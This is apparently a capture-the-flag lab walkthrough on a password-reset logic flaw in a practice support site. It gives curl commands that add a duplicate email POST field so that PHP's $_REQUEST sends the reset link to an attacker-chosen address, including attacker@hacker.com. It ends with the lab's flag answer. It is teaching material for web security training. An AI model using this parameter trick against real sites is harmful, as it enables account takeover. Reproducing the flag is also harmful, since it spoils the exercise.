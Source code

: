 **Logic Flaw Practical**  
We're going to examine the Reset Password function of the Acme IT Support website (http://10.10.58.210/customers/reset). We see a form asking for the email address associated with the account on which we wish to perform the password reset. If an invalid email is entered, you'll receive the error message "Account not found from supplied email address".  
  
For demonstration purposes, we'll use the email address robert@acmeitsupport.thm which is accepted. We're then presented with the next stage of the form, which asks for the username associated with this login email address. If we enter robert as the username and press the Check Username button, you'll be presented with a confirmation message that a password reset email will be sent to robert@acmeitsupport.thm.  
  
At this stage, you may be wondering what the vulnerability could be in this application as you have to know both the email and username and then the password link is sent to the email address of the account owner.

This walkthrough will require running both of the below Curl Requests on the AttackBox which can be opened by using the Blue Button Above.

In the second step of the reset email process, the username is submitted in a POST field to the web server, and the email address is sent in the query string request as a GET field.

Let's illustrate this by using the curl tool to manually make the request to the webserver.  
  
```
$ curl 'http://10.10.58.210/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'  
```
We use the -H flag to add an additional header to the request. In this instance, we are setting the Content-Type to application/x-www-form-urlencoded, which lets the web server know we are sending form data so it properly understands our request.

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable $_REQUEST.

The PHP $_REQUEST variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.  
  
```
$ curl 'http://10.10.58.210/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```
For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of {username}@customer.acmeitsupport.thm

Now rerunning Curl Request 2 but with your @acmeitsupport.thm in the email field you'll have a ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support tickets and reveal a flag.  
```
$ curl 'http://10.10.58.210/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```
*What is the flag from Robert's support ticket?* **THM{AUTH_BYPASS_COMPLETE}**  
  